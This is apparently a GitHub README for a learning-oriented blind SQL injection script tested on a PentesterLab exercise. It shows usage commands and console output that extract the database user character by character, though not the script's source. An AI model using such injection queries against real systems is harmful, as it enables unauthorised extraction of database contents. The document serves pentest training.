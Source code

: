 # Blind SQL injection script
This is a Bash script which automates blind SQL injections by testing characters: `{0..9} {A..z} . .. ; : - _ @`
It was written and tested based on this [PentesterLab course](https://pentesterlab.com/exercises/from_sqli_to_shell/course) which actually supports in-band SQL injection which is highly preferable to blind SQLIs. However, this was written for the sake of learning how to automate blind SQL injections, since all in-band SQLIs can be treated as blind SQL injections but not vice versa.

Previously I used a similar script but for an eLS PTP lab. Since that lab is not open to the public and I haven't found a free one publicly available, this will do. This script was not originally written by me, I used [this for reference](https://github.com/chilico/SQLblind) which itself appeared to be copied from eLS's PTP course on Web app pentesting.

## Important:
This script requires heavy editing. You have to use Burpsuite to test the SQLI parameters, then copy as `curl`, replace the curl syntax in this script, together with `$URL`, `$truestring`.

## Usage
`./SQLblind.sh 20 '@@version'`

`./SQLblind.sh 20 'system_user()'`

## Output for Bash script
```
root@Kali:~/Web# ./SQLblind.sh 30 'system_user()'
Edit the $URL,$truestring and curl command before you use it. Basically change almost everything :) 
Usage: ./SQLblind.sh max-length 'query'
Eg. ./SQLblind.sh 20 'database()' 
Eg. ./SQLblind.sh 30 '@@version'
extracting the results from query system_user()...
Character number 1 found: P
Character number 2 found: E
Character number 3 found: N
Character number 4 found: T
Character number 5 found: E
Character number 6 found: S
Character number 7 found: T
Character number 8 found: E
Character number 9 found: R
Character number 10 found: L
Character number 11 found: A
Character number 12 found: B
Character number 13 found: @
Character number 14 found: L
Character number 15 found: O
Character number 16 found: C
Character number 17 found: A
Character number 18 found: L
Character number 19 found: H
Character number 20 found: O
Character number 21 found: S
Character number 22 found: T
Results: PENTESTERLAB@LOCALHOST

```
## Output for JS script
Tested on Chrome console
```
Extracting results from query system_user()...
Character number 1 found: p
Character number 2 found: e
Character number 3 found: n
Character number 4 found: t
Character number 5 found: e
Character number 6 found: s
Character number 7 found: t
Character number 8 found: e
Character number 9 found: r
Character number 10 found: l
Character number 11 found: a
Character number 12 found: b
Character number 13 found: @
Character number 14 found: l
Character number 15 found: o
Character number 16 found: c
Character number 17 found: a
Character number 18 found: l
Character number 19 found: h
Character number 20 found: o
Character number 21 found: s
Character number 22 found: t
Results: pentesterlab@localhost
```
